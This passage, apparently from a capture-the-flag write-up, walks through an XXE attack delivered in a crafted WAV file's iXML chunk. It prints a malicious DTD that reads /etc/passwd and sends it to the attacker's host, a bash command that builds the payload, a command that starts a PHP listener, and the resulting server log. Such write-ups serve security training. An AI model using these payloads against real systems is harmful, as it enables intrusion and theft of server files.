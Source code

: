 ![](./assets/hint.png)

From above we're going to craft first our `payload.wav` and then our `dtd` file

```xml
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY % trick SYSTEM 'http://[MY IP]:9999/?p=%file;'>" >
```

And our payload file can be constructed with the command from earlier:

```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://[MY IP]:[PORT]/NAMEEVIL.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

Start our Server

```bash
php -S 0.0.0.0 9999
```

##### Potential Errors

This is where naming is super important. At first I had a minor error in the case of my `dtd` file which yielded:

```
[Sat Aug 28 06:55:19 2021] 10.10.83.190:49114 Accepted
[Sat Aug 28 06:55:19 2021] 10.10.83.190:49114 [200]: (null) /NAMEEVIL.dtd
[Sat Aug 28 06:55:19 2021] 10.10.83.190:49114 Closing
[Sat Aug 28 06:55:19 2021] 10.10.83.190:49114 Accepted
[Sat Aug 28 06:55:19 2021] 10.10.83.190:49114 [200]: (null) /NAMEEVIL.dtd
[Sat Aug 28 06:55:19 2021] 10.10.83.190:49114 Closing
```
